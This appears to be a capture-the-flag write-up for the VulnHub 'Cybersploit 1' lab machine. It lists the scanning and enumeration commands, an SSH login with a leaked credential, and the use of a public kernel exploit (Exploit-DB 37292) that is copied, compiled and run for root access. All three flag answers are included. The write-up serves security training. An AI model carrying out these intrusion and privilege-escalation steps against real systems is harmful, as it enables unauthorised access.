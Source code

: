# Cybersploit-1-CTF
## Writeup for the Cybersploit 1 CTF 

Downloadlink : 
https://download.vulnhub.com/cybersploit/cybersploit.ova

*3 Flags in total & gain root access*


### Recon -> Enumerate -> Weaponize -> Exploit ###

1) Locate vulnerable machine IP address by using *netdiscover*  **Ip : 192.168.23.133** (^ip address will be diffrent on your machine) 
2) Scan for open ports using *NMAP.* **nmap -sV -p- -v 192.168.23.133**

**-nmap results-**

22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))

3) use **DIRB** tool to explore http port. *: dirb http: //192.168.23.133* 

**-dirb results-**

---- Scanning URL: http: //192.168.23.133/ ----
+ http: //192.168.23.133/cgi-bin/ (CODE:403|SIZE:290)                                     
+ http: //192.168.23.133/hacker (CODE:200|SIZE:3757743)                                   
+ http: //192.168.23.133/index (CODE:200|SIZE:2333)                                       
+ http: //192.168.23.133/index.html (CODE:200|SIZE:2333)                                  
+ http: //192.168.23.133/robots (CODE:200|SIZE:79)                                        
+ http: //192.168.23.133/robots.txt (CODE:200|SIZE:79)                                    
+ http: //192.168.23.133/server-status (CODE:403|SIZE:295) 

4) Explore the **robot.txt** link and the following encrypted message will appear:

 *R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9* 

5) use a base64 decoder and the first flag will be uncovered.

 :pirate_flag: ***Flag1: cybersploit{youtube.com/c/cybersploit}*** 

6) Access the http: //192.168.23.133/index.html link and inspect the source code. A username called **itsskv** will be shown. 

7) Use *SSH* to gain access **ssh itsskv@@192.168.23.133 ,password = cybersploit{youtube.com/c/cybersploit**

8) Once gaining access to the machine , ls and cat the flag2.txt. A binary code will be shown. Use a binary decoder to get the 2nd flag. 

:pirate_flag: ***flag2: cybersploit{https:t.me/cybersploit1}***

9) Use the **uname -a*** command to find out information about the system.

*Linux cybersploit-CTF **3.13.0**-32-generic #57~precise1-Ubuntu SMP 
Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux*

10) **cat etc/issue** to find operation system info

**Ubuntu 12.04.5** *LTS \n \l*

11) Search online for the Ubuntu 12.04.5 exploit 

*exploit db 
:link:https://www.exploit-db.com/exploits/37292*

12) Use *SCP* to transfer the exploit from attacking machine to the vulnerable machine by

**scp 37292.c itsskv@192.168.23.133:/home/itsskv/**

13) copy the file to the tmp folder **cp 37292.c /tmp/**

14) Complile the exploit **gcc 37292.c**

15) Excute the malicous code **./a.out**

16) Use the command **id** and **whoami** to check if there is root access

17) **cat /root/finalflag.txt** to gain access to the final flag

:pirate_flag: ***Flag3: cybersploit{Z3X21CW42C4 many many congratulations !}***


End






